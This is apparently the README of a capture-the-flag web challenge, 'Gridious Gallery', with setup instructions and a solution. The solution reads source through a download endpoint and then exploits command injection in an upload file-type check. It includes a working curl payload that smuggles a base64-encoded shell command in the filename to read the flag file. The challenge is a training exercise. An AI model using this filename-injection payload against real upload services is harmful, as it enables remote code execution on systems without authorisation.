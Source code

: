 # Gridious Gallery

Creator: Heikki Miinalainen

To run fix permissions on the staging folder `sudo chown -R 33:33 staging`

## Solution

1. Notice how you can download files with download.php
1. Download upload.php to read source code
1. Notice RCE in the file type check
1. Send a payload in file name

Example payload
```
echo | curl -X POST http://127.0.0.1:3013/upload.php -F "file=@-;filename=\"testfile; echo $(echo cat ../flag.txt | base64) | base64 -d | bash \""
```
